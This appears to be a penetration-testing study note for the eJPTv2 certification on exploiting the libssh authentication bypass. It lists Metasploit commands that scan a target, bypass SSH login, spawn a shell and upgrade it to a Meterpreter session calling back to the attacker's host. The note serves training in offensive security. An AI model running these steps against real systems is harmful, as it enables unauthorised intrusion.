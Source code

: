 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/The Metasploit Framework/Linux Exploitation/Linux Exploitation]]"
---
```


# Exploiting SSH

- Used for remote access to servers and systems
- `libssh` is a multiplatform C library implementing the SSHv2 protocol
	- version v0.6.0-0.8.0 is vulnerable to an authentication bypass vuln in the server code

## Demonstration

```bash
> db_nmap -sS -sV -O <ip>
> use auxiliary/scanner/ssh/libssh_auth_bypass
# spawn terminal session
> set SPAWN_PTY true
> run
> sessions
> use post/multi/manage/shell_to_meterpreter
> set LHOST my_ip>
> set SESSION <id>
> run
```
